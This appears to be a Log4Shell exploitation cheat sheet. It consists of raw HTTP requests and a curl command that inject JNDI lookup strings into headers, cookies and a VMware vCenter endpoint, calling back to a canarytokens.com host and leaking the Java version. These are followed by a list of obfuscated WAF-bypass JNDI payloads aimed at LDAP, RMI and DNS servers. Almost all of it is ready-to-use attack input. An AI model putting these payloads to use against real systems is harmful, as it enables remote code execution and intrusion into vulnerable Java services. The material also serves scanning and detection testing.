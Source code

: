 GET /test?id=%24%7Bj%24%7B::-n%7Ddi:dns%24%7B::-:%7D//quua8mp7vfexh3a3qkf1sggj9%24%7B::-.%7Dcanarytokens.com%7D HTTP/1.1
User-Agent: ${j${::-n}di:dns${::-:}//quua8mp7vfexh3a3qkf1sggj9${::-.}canarytokens.com}
Origin: ${j${::-n}di:dns${::-:}//quua8mp7vfexh3a3qkf1sggj9${::-.}canarytokens.com}
Referer: ${j${::-n}di:dns${::-:}//quua8mp7vfexh3a3qkf1sggj9${::-.}canarytokens.com}
Cookie: LastMRH_Session=***; MRHSession=***
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: ******
Connection: Keep-alive
 
$ curl test.domain.com -H 'Cookie: CU_BRAND=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}'
 
#Cookie based Log4Shell RCE
GET / HTTP/2
Host: test.domain.com
Referer: https://www.google.com/search?BC=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Cookie: mt.v=***; CU_ACT=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}; CID_CART_COOKIE=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}; IBSD_LOCALE=en_US; CU_BRAND=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}; jsession_unique_id=xx888dd667ggddd23454d
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
 
#VMware vCenter Log4Shell RCE
 
POST /analytics/telemetry/ph/api/hyper/send?_c=${jndi:ldap://${sys:java.version}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}
Host: test.domain.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
# Some Great WAF-Bypass Payloads to Play With
CREDIT: https://musana.net
${jndi:ldap://domain.com/j}
${jndi:ldap:/domain.com/a}
${jndi:dns:/domain.com}
${jndi:dns://domain.com/j}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://domain.com/j}
${${::-j}ndi:rmi://domain.com/j}
${jndi:rmi://domainldap.com/j}
${${lower:jndi}:${lower:rmi}://domain.com/j}
${${lower:${lower:jndi}}:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://domain.com/j}
${${lower:j}${lower:n}${lower:d}i:${lower:ldap}://domain.com/j}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://domain.com/j}
${jndi:${lower:l}${lower:d}a${lower:p}://domain.com}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//domain.com/a}
${jn${env::-}di:ldap://domain.com/j}
${jn${date:}di${date:':'}ldap://domain.com/j}
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://domain.com/j}
${j${main:\k5:-Nd}i${spring:k5:-:}ldap://domain.com/j}
${j${sys:k5:-nD}${lower:i${web:k5:-:}}ldap://domain.com/j}
${j${::-nD}i${::-:}ldap://domain.com/j}
${j${EnV:K5:-nD}i:ldap://domain.com/j}